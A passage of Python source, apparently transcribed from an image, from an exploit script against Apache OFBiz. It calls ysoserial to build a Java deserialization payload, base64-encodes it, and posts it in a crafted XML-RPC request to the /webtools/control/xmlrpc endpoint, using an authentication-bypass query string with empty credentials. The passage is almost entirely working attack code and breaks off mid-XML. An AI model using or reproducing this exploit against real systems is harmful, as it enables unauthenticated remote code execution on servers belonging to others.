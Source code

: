 ```python

    Returns:
        str: A base64 encoded string representing the serialized payload.

    Exits:
        If the 'ysoserial-all.jar' file is not found, it logs an error and exits the program.
    """
    # Check if the ysoserial JAR file is present in the current directory.
    if not os.path.isfile("ysoserial-all.jar"):
        logging.error("[-] ysoserial-all.jar not found. Exiting.")
        exit(1)

    print("[+] Generating payload...")
    try:
        # Run the command to generate a serialized payload using ysoserial.
        # 'subprocess.run' executes the command, capturing its output.
        result = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, text=False)

        # Base64 encode the serialized payload produced by ysoserial.
        # The result is converted to a base64-encoded string.
        encoded_output = base64.b64encode(result.stdout).decode().replace("\n", "")
        print("[+] Payload generated successfully.")

    except subprocess.CalledProcessError as e:
        # Catch and log any errors that occur during the subprocess execution.
        print(f"[-] LOG: An error occurred during payload generation: {e}")

    return encoded_output

def send_post_request(url, encoded_output):
    """
    Send a POST request containing a malicious serialized payload to the server.

    Args:
        url (str): The base URL of the target server.
        encoded_output (str): The base64 encoded payload to send in the request.
    """
    print("[+] Sending malicious serialized payload...")
    try:
        # Construct the URL for the target XML-RPC endpoint.
        target_url = f"{url}/webtools/control/xmlrpc/?USERNAME=&PASSWORD=&requirePasswordChange=Y"

        # Define the headers for the POST request, specifying the content type as XML.
        headers = {
            "Content-Type": "application/xml",
        }

        # Construct the XML payload containing the base64-encoded serialized object.
        # This payload is crafted to exploit deserialization vulnerabilities.
        xml_data = f"""<?xml version="1.0"?>
            <methodCall>
              <methodName>Methodname</methodName>
              <params>
                <param>
                  <value>
                    <struct>
                      <member>
                        <name>test</name>
                        <value>
                          <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">{encoded_output}</serializable>
                        </value>
                      </member>
```